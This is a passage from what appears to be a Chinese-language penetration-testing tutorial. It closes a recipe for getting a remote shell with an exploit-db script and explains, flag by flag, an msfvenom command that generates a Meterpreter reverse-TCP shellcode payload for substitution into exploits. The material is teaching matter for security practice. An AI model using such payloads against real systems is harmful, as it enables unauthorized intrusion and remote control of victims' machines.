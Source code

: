 1.  一旦脚本执行完毕，请返回监听器，查看是否已收到连接：![操作步骤...](img/image_04_050.jpg)

太棒了，我们使用 `exploit-db` 上可用的脚本获得了远程 shell。

## 工作原理...

其中大部分已在步行说明中解释。这里介绍的新工具是 `msfvenom`。以下是所使用参数的解释：

```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3
LPORT=443 EXITFUNC=thread -b "x00x0ax0dx5cx5fx2fx2ex40"
-f python -a x86

```

+   `-p`：这是需要创建的 payload。

+   `LHOST`：主机，机器应连接到以进行利用。

+   `LPORT`：机器应连接到的端口以进行利用。

+   `-b`：这代表坏字符。它告诉脚本在生成 shell code 时避免使用所述字符。

+   `-f`：这说明了要创建的 shell code 的格式。

+   `-a`：这说明了目标机器的架构，利用将在其上执行。

## 还有更多...

这只是对如何编辑脚本以满足我们需求进行执行的基本理解。此活动旨在向读者介绍 shell code 替换的概念。`exploit-db` 上有许多与各种利用相关的脚本。
